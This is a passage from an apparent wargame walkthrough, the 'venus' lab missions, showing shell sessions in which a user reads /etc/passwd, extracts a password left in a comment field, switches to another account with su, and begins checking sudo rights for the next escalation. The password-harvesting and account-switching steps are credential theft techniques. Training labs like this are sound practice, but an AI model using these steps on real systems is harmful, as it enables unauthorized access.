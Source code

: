 ## ES ##
El admin ha dejado la password de anna como comentario en el fichero passwd.
alice@venus:~$ cat /etc/passwd | cut -d':' -f5 | sort -u

Gnats Bug-Reporting System (admin)
Mailing List Manager
MySQL Server,,,
backup
bin
daemon
games
ircd
lp
mail
man
news
nobody
proxy
root
sync
sys
systemd Network Management,,,
systemd Resolver,,,
systemd Time Synchronization,,,
uucp
w8NvY27qkpdePox
www-data
alice@venus:~$ su anna
Password:
anna@venus:/pwned/alice$ cd $HOME
anna@venus:~$
{{< / highlight >}}

## Mission 0x15

{{< highlight plaintext >}}
anna@venus:~$ cat mission.txt
################
# MISSION 0x15 #
################

## EN ##
Maybe sudo can help you to be natalia.

## ES ##
Puede que sudo te ayude para ser natalia.
anna@venus:~$ sudo -l
Matching Defaults entries for anna on venus:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
